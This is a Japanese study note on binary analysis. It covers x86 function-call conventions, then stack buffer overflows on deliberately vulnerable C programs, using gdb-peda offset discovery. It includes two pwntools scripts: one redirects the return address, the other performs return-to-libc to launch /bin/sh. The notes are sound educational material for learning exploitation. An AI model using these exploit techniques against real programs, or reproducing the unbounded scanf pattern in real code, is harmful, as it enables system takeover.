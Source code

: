 # はじめて学ぶバイナリ解析
- 関数呼び出しに関係するアセンブリ命令
  id:: 656c0bf9-1d09-40f8-b33c-06e618e91e04
	- call func : EIP(=call funcの次の命令が格納されているアドレス)をスタックにpushし、EIPをfunc中の先頭の命令が格納されているアドレスにする
	- ret : EIPをスタックのトップの値にしてからESPを4増やす(pop eipと同じ)
- 関数呼び出しの実装(呼び出し規約の1つであるstdcallの場合)
	- 呼び出し元
		- ```
		  push arg2 ; 第二引数をスタックにpush
		  push arg1 ; 第一引数をスタックにpush
		  call label ; EIP(=mov retval, eaxが格納されているアドレス)をスタックにpushし、EIPをpush ebpのアドレスにする
		  mov retval, eax ; 関数の戻り値はEAXに格納されているので、これを保存
		  ```
	- 呼び出し先
		- ```
		  label:
		    push ebp ; EBPをスタックにpush
		    mov ebp, esp ; EBPにESPを代入する
		    sub esp, buflength ; ESPをアドレスの小さい方に動かして、この関数で利用する分のバッファを確保する
		    mov eax, [ebp+0x8] ; EAXにarg1を代入する
		    mov ebx, [ebp+0xC] ; EBXにarg2を代入する
		    (処理) ; 本体の処理をする、返り値はEAXに格納される
		    mov esp, ebp ; ESPにEBPを代入する
		    pop ebp ; EBPを呼び出し元が利用していたスタック領域のEBPに戻し、ESPを4増やす
		    ret ; EIPをスタックのトップの値(=mov retvalが格納されているアドレス)にし、ESPを4増やす
		  ```
	- stdcall以外の呼び出し規約としてcdeclというのがある([参考](http://prasinos.blog2.fc2.com/blog-entry-627.html))
- リターンアドレスの書き換え
	- ```c
	  #include <stdio.h>
	  
	  void pwn() {
	    printf("hacked!");
	  }
	  
	  void vuln() {
	    char overflowme[48];
	    scanf("%[^\n]", overflowme);
	  }
	  
	  int main() {
	    vuln();
	    printf("failed!");
	    return 0;
	  }
	  ```
	- [%[^\n]について](https://ja.wikipedia.org/wiki/Scanf#%E5%A4%89%E6%8F%9B%E6%8C%87%E5%AE%9A)
	- バッファオーバーフローを利用して、リターンアドレスを書き換え、通常実行されないpwn関数を呼び出す
	- overflowmeの入力をするタイミングでESPからリターンアドレスまでの差がどれだけあるのかと、pwn関数のアドレスを知る必要がある
	- 前者はgdb-pedaのpattcとpattoで知ることが出来る
		- pattcは指定された長さの文字列を生成する
			- ```
			  gdb-peda$ pattc 10
			  'AAA%AAsAAB'
			  ```
		- pattoは指定した文字列がpattcで生成した文字列のどこに出てくるかを調べる(0-indexed)
			- ```
			  gdb-peda$ patto AA%A
			  AA%A found at offset: 1
			  ```
		- pattc 70で生成した文字列をoverflowmeの入力に与える
			- ```
			  gdb-peda$ pattc 70
			  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3'
			  ```
		- ![2023_12_3_1.png](../assets/2023_12_3_1_1701613105826_0.png)
		- EIPが0x48414132(2AAH)に書き換わっている
		- pattoでESPからリターンアドレスまでの差が60バイトであることが分かる
			- ```
			  gdb-peda$ patto 2AAH
			  2AAH found at offset: 60
			  ```
		- EBPは0x41416341(AcAA)に書き換わっていて、これは2AAHの前の文字列である
		- 長めに70文字を入力したので、リターンアドレスを超えて、呼び出し元の関数が利用していたスタック領域も一部書き換えている
	- 後者はp <関数名>で知ることが出来る
		- ```
		  gdb-peda$ p pwn
		  $1 = {<text variable, no debug info>} 0x5655556d <pwn>
		  ```
	- 以下のプログラムでリターンアドレスをpwn関数のアドレスに書き換え、pwn関数を実行させることが出来る
		- ```python
		  from pwn import *
		  p = process("./a.out")
		  p.sendline("A"*60+"\x6d\x55\x55\x56")
		  print(p.recvline())
		  ```
		- リトルエンディアンで並び替えて、書き換えることに注意
- ステップイン実行とステップアウト実行
	- gdb-pedaでnを打つとステップイン実行、sを打つとステップアウト実行が行われる
	- call命令の時に実行中の関数から出ずに命令を進めるのがステップイン実行、実行中の関数を超えて命令を進めるのがステップアウト実行
- pattcとpattoを使わなくても、ステップアウト実行をすることで、ESPからリターンアドレスの差は求めることが出来る
- return to libc
	- リターンアドレスをlibc(標準Cライブラリ : standard c library)中のsystem関数などのアドレスに書き換える攻撃をreturn to libcと呼ぶ
	- system関数は引数として渡した文字列をコマンドとして実行する関数で、system("/bin/sh")を実行させることが出来れば、コンピュータを乗っ取ることが可能
- system関数開始時のスタックの状態
	- ```c
	  #include <stdlib.h>
	  
	  int main() {
	    system("/bin/ls");
	    return 0;
	  }
	  ```
	- ![2023_12_3_2.png](../assets/2023_12_3_2_1701613118782_0.png)
	- 0xffffcfacにはリターンアドレス0x56555547が格納されている
	- 0xffffcfb0には"/bin/ls"が格納されているアドレス(0x565555e0)が格納されている
- リターンアドレスをsystem関数のアドレスに書き換えるだけでなく、retでsystem関数にジャンプした後にsystem関数が正常に動作するために、system関数が実行されるタイミングで、スタックのトップにsystem関数にとってのリターンアドレスが、その下に"/bin/sh"が格納されているアドレスが存在しなければいけない
- つまり入力は、適当な文字列+system関数のアドレス+system関数にとってのリターンアドレス+"/bin/sh"が格納されているアドレス、となる
	- system("/bin/sh")を実行させるだけなら、system関数にとってのリターンアドレスは適当で良い
- ```c
  #include <stdio.h>
  #include <stdlib.h>
  
  char global[] = "/bin/sh";
  
  void vuln() {
    printf("global:%p\n", global);
    char overflowme[32];
    scanf("%[^\n]", overflowme);
  }
  
  int main() {
    vuln();
    printf("failed!\n");
    return 0;
  }
  ```
	- 実際の攻撃ではメモリ上に"/bin/sh"を格納し、そのアドレスを取得して攻撃を行うが、手順が複雑であるため、今回はグローバル変数として定義し、そのアドレスを表示させる
	- グローバル変数が確保される領域を静的領域と呼び、静的領域はプログラム部ともスタック部とも異なる位置に存在し、プログラム内のどの関数からでもアクセス可能
- 以下のプログラムでsystem("/bin/sh")を実行させることが出来る
	- ```python
	  from pwn import *
	  p = process("./a.out")
	  p.sendline("A"*44+"\x00\xa2\xe1\xf7BBBB\x08\x70\x55\x56")
	  p.interactive()
	  ```
	- "A"*44は、ESPとリターンアドレスの差を埋める分
	- 0xf7e1a200はsystem関数のアドレス
	- BBBBはsystem関数にとってのリターンアドレスを適当に埋める分
	- 0x56557008は"/bin/sh"が格納されているアドレス
	- interactiveメソッドにより手動で入力を与えることが出来る